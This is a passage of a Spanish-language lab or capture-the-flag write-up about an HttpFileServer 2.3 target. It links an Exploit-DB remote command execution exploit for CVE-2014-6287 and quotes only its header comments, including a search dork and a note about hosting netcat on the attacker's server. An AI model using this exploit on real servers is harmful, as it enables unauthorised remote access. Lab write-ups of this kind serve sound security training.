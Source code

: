 <figure><img src="../../../../.gitbook/assets/puerto80.PNG" alt=""><figcaption></figcaption></figure>

Vemos que nos estamos enfrentando a un **httpfileserver 2.3** que según wikipedia **HTTP File Server**, también conocido como HFS, es un servidor web gratuito diseñado específicamente para publicar y compartir archivos.

Vamos a buscar vulnerabilidades asociadas a **httpfileserver 2.3** en el siguiente link https://www.exploit-db.com/exploits/49584 encontramos el siguiente script en python para ejecutar comandos de forma remota y acceder a la maquina

```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
```